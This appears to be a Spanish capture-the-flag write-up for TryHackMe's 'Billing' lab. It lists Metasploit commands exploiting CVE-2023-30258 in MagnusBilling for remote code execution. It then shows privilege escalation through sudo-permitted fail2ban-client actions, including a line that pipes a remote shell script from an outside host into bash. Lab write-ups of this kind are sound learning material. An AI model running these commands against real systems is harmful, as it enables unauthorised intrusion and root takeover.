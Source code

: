 # Billing - TryHackMe

**IP:** 10.10.119.166

## Descubrimiento
```bash
gobuster dir -u http://10.10.119.166 -w /usr/share/wordlists/dirb/common.txt
```

## Exploit
- CVE-2023-30258 (MagnusBilling unauthenticated RCE):
```bash
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
set RHOSTS 10.10.56.227
set LHOST 10.9.0.107
exploit
```

## Post-Explotación
```bash
sudo -l
```

## Escalada de Privilegios
```bash
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 666 /tmp/root.txt'"
# O bien:
sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'curl http://10.6.15.252:9000/shell.sh | bash'"
```
